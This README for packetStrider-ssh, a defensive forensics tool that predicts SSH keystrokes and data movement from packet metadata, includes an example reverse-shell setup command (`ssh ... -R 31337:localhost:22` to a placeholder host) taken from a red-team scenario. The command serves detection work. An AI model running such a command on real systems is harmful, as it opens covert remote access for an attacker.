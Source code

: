 Output: 

```
usage: packetStrider-ssh.py [-h] [-f FILE] [-n NSTREAM] [-m] [-k] [-p]
                             [-z ZOOM] [-d DIRECTION] [-o OUTPUT_DIR]
                             [-w WINDOW] [-s STRIDE]

packetStrider-ssh is a packet forensics tool for SSH. It creates a rich
feature set from packet metadata such SSH Protocol message content, direction,
size, latency and sequencing. It performs pattern matching on these features,
using statistical analysis, and sliding windows to predict session initiation,
keystrokes, human/script behavior, password length, use of client
certificates, context into the historic nature of client/server contact and
exfil/infil data movement characteristics in both Forward and Reverse sessions

optional arguments:
  -h, --help            show this help message and exit
  -f FILE, --file FILE  pcap file to analyze
  -n NSTREAM, --nstream NSTREAM
                        Perform analysis only on stream n
  -m, --metaonly        Display stream metadata only
  -k, --keystrokes      Perform keystroke prediction
  -p, --predict_plot    Plot data movement and keystrokes
  -z ZOOM, --zoom ZOOM  Narrow down/zoom the analysis and plotting to only
                        packets "x-y"
  -d DIRECTION, --direction DIRECTION
                        Perform analysis on SSH direction : "forward",
                        "reverse" OR "both"
  -o OUTPUT_DIR, --output_dir OUTPUT_DIR
                        Directory to output plots
  -w WINDOW, --window WINDOW
                        Sliding window size, # of packets to side of window
                        center packet, default is 2
  -s STRIDE, --stride STRIDE
                        Stride between sliding windows, default is 1
```


## Example
The pcap "forward_reverse.pcap" is from a common TTP of a Reverse SSH shell, a favorite of red teams everywhere. Specifically the following commands were used, to highlight the capabilities of packet strider in a simple way: 
- Forward connection from victim
    - The command for the forward session was `ssh user@1.2.3.4 -R 31337:localhost:22` which binds local port 31337 ready for the reverse SSH connection back to the victim PC. This connection can be effected in many ways including manually, by an RCE, SSRF, or some form of persistence. For the purpose if this demo, it is a manual standard forward session.  
    - This was NOT the first time the client has seen the server , we see this because the delta for related packets was very small , the server's key fingerprint was already in the client's known_hosts, so the user was not prompted to add it - which would increase the latency of packets. 
   - Two consecutive failed password logins by human, followed by a successful login with an 8+ character password.
   - `ls` is typed in forward session, in this sequence: **'l'** 'w' 'w' 'back-space' 'back-space' **'s'** and then enter. The total size of data over the wire that is transmitted (as the output of ls) is classified as infiltration, given that is inbound.
